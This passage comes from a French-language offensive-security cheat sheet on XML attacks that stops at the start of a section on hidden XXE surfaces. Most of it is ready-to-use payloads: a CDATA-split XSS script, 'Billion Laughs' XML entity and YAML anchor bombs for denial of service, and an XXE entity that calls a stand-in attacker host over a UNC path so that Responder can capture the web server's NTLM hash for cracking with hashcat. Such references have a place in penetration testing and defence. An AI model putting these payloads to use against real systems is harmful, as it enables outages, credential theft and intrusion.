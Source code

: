 ### XSS
```xml
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```
### DoS

#### Attaque des Milliards de Rires
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
#### Attaque Yaml
```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
#### Attaque de Blowup Quadratique

![](<../images/image (527).png>)

#### Obtenir NTML

Sur les hôtes Windows, il est possible d'obtenir le hash NTML de l'utilisateur du serveur web en configurant un gestionnaire responder.py :
```bash
Responder.py -I eth0 -v
```
et en envoyant la requête suivante
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```
Puis vous pouvez essayer de craquer le hash en utilisant hashcat

## Surfaces XXE Cachées

### XInclude
